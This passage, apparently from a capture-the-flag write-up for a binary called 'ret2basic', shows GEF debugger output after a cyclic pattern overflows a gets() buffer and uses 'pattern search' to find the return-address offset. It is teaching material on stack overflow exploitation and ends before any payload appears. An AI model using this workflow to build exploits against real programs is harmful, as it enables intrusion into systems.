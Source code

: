 ```shell
$rsp   : 0x00007fffffffdd68  →  "paaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaava[...]"
$rbp   : 0x616161616161616f ("oaaaaaaa"?)
$rsi   : 0x00007ffff7f9ea03  →  0xfa1680000000000a
$rdi   : 0x00007ffff7fa1680  →  0x0000000000000000
$rip   : 0x000000000040133b  →  <vuln+44> ret
$r8    : 0x00007fffffffdcf0  →  "aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga[...]"
$r9    : 0x0
$r10   : 0xfffffffffffff24a
$r11   : 0x246
$r12   : 0x0000000000401100  →  <_start+0> endbr64
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
──────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdd68│+0x0000: "paaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaava[...]"    ← $rsp
0x00007fffffffdd70│+0x0008: "qaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawa[...]"
0x00007fffffffdd78│+0x0010: "raaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxa[...]"
0x00007fffffffdd80│+0x0018: "saaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaaya[...]"
0x00007fffffffdd88│+0x0020: "taaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
0x00007fffffffdd90│+0x0028: "uaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
0x00007fffffffdd98│+0x0030: "vaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
0x00007fffffffdda0│+0x0038: "waaaaaaaxaaaaaaayaaaaaaa"
────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401334 <vuln+37>        call   0x4010b0 <gets@plt>
     0x401339 <vuln+42>        nop
     0x40133a <vuln+43>        leave
 →   0x40133b <vuln+44>        ret
[!] Cannot disassemble from $PC
────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2basic", stopped 0x40133b in vuln (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40133b → vuln()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```

As we can see both RSP and RBP are filled with our pattern, let's make use `pattern search` utility from GEF

Examining RSP:

```shell
gef➤  pattern search $rsp
[+] Searching '$rsp'
[+] Found at offset 120 (little-endian search) likely
[+] Found at offset 113 (big-endian search)
```
